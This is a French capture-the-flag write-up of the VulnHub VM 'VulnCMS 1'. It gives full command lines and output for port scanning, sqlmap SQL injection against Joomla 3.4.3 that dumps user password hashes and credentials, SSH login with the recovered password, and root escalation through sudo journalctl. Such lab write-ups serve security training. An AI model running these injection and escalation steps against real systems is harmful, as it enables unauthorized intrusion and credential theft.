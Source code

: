 ```yaml
---
title: "CTF VulnCMS: 1"
date: 2021-06-19
tags: ["Pentest", "CTF", "joomscan", "sqlmap"]
download: https://www.vulnhub.com/entry/vulncms-1,710
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.2** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.26`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir VulnCMS1 && cd VulnCMS1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8c:9f:7e:78:82:ef:76:f6:26:23:c9:52:6d:aa:fe:d0 (RSA)
|   256 2a:e2:f6:d2:52:1c:c1:d0:3d:aa:40:e6:b5:08:1d:45 (ECDSA)
|_  256 fa:c9:eb:58:e3:d2:b7:4a:74:77:fc:69:0e:b6:68:08 (ED25519)
80/tcp   open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: W3.CSS Template
5000/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-generator: WordPress 5.7.2
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: fsociety &#8211; Just another WordPress site
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Home
9001/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: fsociety.web
```

On a un serveur **SSH** sur le port **22** puis 4 serveurs **Nginx** 1.14.0 sur 4 ports différents : **80**, **5000** (**Wordpress** 5.7.2), **8001** (**Joomla**) et **9001** (**Drupal** 7).

On examine le premier site avec **Nikto**.

```bash
$ nikto -h http://$IP -o nikto_default.txt
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Entry '' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

On vérifie ce que contient le fichier "robots.txt".

```txt
User-agent: *

Disallowed:
/home.html
/about.html
```

Ces 2 pages n'apportent rien de nouveau donc on examine le second site, celui sous **Wordpress** avec **Nikto**.

```bash
$ nikto -h http://$IP:5000 -o nikto_WP.txt
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-redirect-by' found, with contents: WordPress
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: http://192.168.1.26:5000/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'link' found, with contents: <http://fsociety.web:5000/wp-json/>; rel="https://api.w.org/"
+ /wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version
+ /wp-content/plugins/hello.php: PHP error reveals file system path.
+ OSVDB-62684: /wp-content/plugins/hello.php: The WordPress hello.php plugin reveals a file system path
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login.php: Wordpress login found
```

```bash
$ wpscan --url http://$IP:5000 -e u
[i] User(s) Identified:

[+] wordpress_admin
```

En tentant le brute force avec l'utilisateur "wordpress_admin" `wpscan --url http://$IP:5000 -U wordpress_admin -P /usr/share/wordlists/rockyou.txt`, ça ne mène à rien...

On poursuit en examinant le troisième site, avec le second CMS **Joomla** avec **Nikto**.

```bash
$ nikto -h http://$IP:8081 -o nikto_Joomla.txt
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Entry '/administrator/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/bin/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/cache/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/cli/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/components/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/includes/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/language/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/layouts/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/libraries/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/logs/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/modules/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/plugins/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/tmp/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 14 entries which should be manually viewed.
+ OSVDB-8193: /index.php?module=ew_filemanager&type=admin&func=manager&pathext=../../../etc: EW FileManager for PostNuke allows arbitrary file retrieval.
+ OSVDB-3092: /administrator/: This might be interesting...
+ OSVDB-3092: /bin/: This might be interesting...
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3092: /logs/: This might be interesting...
+ OSVDB-3092: /tmp/: This might be interesting...
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ /htaccess.txt: Default Joomla! htaccess.txt file found. This should be removed or renamed.
+ /administrator/index.php: Admin login page/section found.
+ 8742 requests: 0 error(s) and 26 item(s) reported on remote host
```

Pour trouver la version de **Joomla** utilisée, on va se servir de l'outil d'analyse **joomscan**. On le récupère depuis son repo Git `git clone https://github.com/rezasp/joomscan.git && cd joomscan` afin de lancer le scan.

```bash
$ perl joomscan.pl -u http://$IP:8081
[+] Detecting Joomla Version
[++] Joomla 3.4.3

[+] Core Joomla Vulnerability
[++] Joomla! 3.2.x < 3.4.4 - SQL Injection
EDB : https://www.exploit-db.com/exploits/38534/
[...]
```

On trouve la version de **Joomla**: 3.4.3 ainsi que les failles associées. C'est la première qui nous intéresse car c'est une injection SQL. Pour ce faire, on va utiliser l'outil **SQLMap**.  
Dans un premier temps, on récupère les bases de données utilisées.

```bash
$ sqlmap -u 'http://'$IP':8081/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[select]=*' --tamper=apostrophemask --technique=E --dbs
available databases [2]:
[*] information_schema
[*] joomla_db
```

La base de données qui nous intéresse est la seconde "joomla_db".  
Puis dans un second temps, on récupère la liste des tables.

```bash
$ sqlmap -u 'http://'$IP'8081/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[select]=*' --tamper=apostrophemask --technique=E -D joomla_db -T users --tables --dump 
[...]
+-------------------------------+
| hs23w_usergroups              |
| hs23w_users                   |
| hs23w_viewlevels              |
+-------------------------------+
```

On a une liste de tables préfixées par "hs23w_". Celle qui nous intéresse est la "hs23w_users".  
Et ensuite, dans un troisième et dernier temps, on récupère la liste des utilisateurs.

```bash
$ sqlmap -u 'http://'$IP':8081/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[select]=*' --tamper=apostrophemask --technique=E -D joomla_db -T hs23w_users --dump
Database: joomla_db
Table: hs23w_users
[2 entries]
+----+------------+---------+-------+-------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
| id | name       | otep    | block | email                   | otpKey  | params                                                                                       | password                                                     | username        | sendEmail | activation | resetCount | registerDate        | requireReset | lastResetTime       | lastvisitDate       |
+----+------------+---------+-------+-------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
| 46 | Super User | <blank> | 0     | Fluntence54@armyspy.com | <blank> | <blank>                                                                                      | $2y$10$EYc6SKfMLzlLE/IcD9a6XeAe2Uv7WTBFlbbqRrnpht1K0M1bLrWee | joomlaCMS_admin | 1         | 0          | 0          | 2021-05-29 10:08:24 | 0            | 0000-00-00 00:00:00 | 2021-05-31 09:14:41 |
| 47 | elliot     | <blank> | 1     | 5T3e!_M0un7i@N          | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$jddnEQpjriJX9jPxh6C/hOag4ZZXae4iVhL7GVRPC9SHWgqbi4SYy | elliot          | 0         | <blank>    | 0          | 2021-05-31 09:16:30 | 0            | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |
+----+------------+---------+-------+-------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
```

On a un utilisateur "elliot" avec ce qui semblerait être un mot de passe "5T3e!_M0un7i@N" dans le champ "email".

## Pénétration

On se connecte au serveur **SSH** avec ce compte.

```bash
$ ssh elliot@$IP
password: 5T3e!_M0un7i@N
```

Et on trouve le premier flag.

```bash
$ cat user.txt
9046628504775551
```

## Escalation

Vous remarquez que la commande `cd` n'est pas disponible. Déconnectez-vous de SSH et reconnectez-vous avec la commande suivante `ssh elliot@$IP -t "bash --noprofile"`.

En farfouillant dans le dossier de l'application **Drupal**, on tombe sur un fichier intéressant...

```bash
$ cat /var/www/html/drupal/misc/tyrell.pass
Username: tyrell
Password: mR_R0bo7_i5_R3@!_
```

On a trouvé le mot de passe de l'utilisateur "tyrell".

```bash
$ su tyrell
password: mR_R0bo7_i5_R3@!_
```

Cet utilisateur a le privilège root sur la commande `journalctl`.

```bash
$ sudo -l
Matching Defaults entries for tyrell on vuln_cms:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tyrell may run the following commands on vuln_cms:
    (root) NOPASSWD: /bin/journalctl
```

On cherche la commande à exécuter sur [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo).

```bash
$ sudo journalctl
$ /bin/sh
$ id
uid=0(root) gid=0(root) groups=0(root)
```

Ainsi, on trouve le second et dernier flag.

```bash
$ cat /root/root.txt
4359537020406305
```
